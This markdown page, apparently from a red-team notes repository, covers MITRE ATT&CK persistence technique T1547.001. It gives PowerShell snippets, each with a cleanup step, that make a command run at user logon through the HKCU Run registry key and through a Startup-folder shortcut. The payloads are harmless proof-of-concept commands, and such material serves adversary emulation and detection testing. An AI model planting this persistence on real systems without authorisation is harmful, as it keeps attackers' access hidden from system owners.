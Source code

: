 # TA0003 - Persistence

*- maintaining access.*

## T1547 - Boots or Logon Autostart Execution

### T1547.001 - Registry Run Keys / Startup Folder

- Execute `$cmd` (via registry run key) when current user logins:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -Command Get-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    New-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Value $cmd -Force
    ```
    - Cleanup:
    ```ps1
    Remove-ItemProperty -Path HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name poc -Force
    ```

- Execute `$cmd` (via startup folder) when current user logins:
    - Attack:
    ```ps1
    $cmd = "$env:SystemDrive\Windows\explorer.exe $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
    $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.Save()
    ```
    - Cleanup:
    ```ps1
    Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
    ```

## Resources
- [TA0003 - Persistence](https://attack.mitre.org/tactics/TA0003/)
    - [T1547 - Boot or Logon Autostart Execution](https://attack.mitre.org/techniques/T1547/)
        - [T1547.001 - Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)
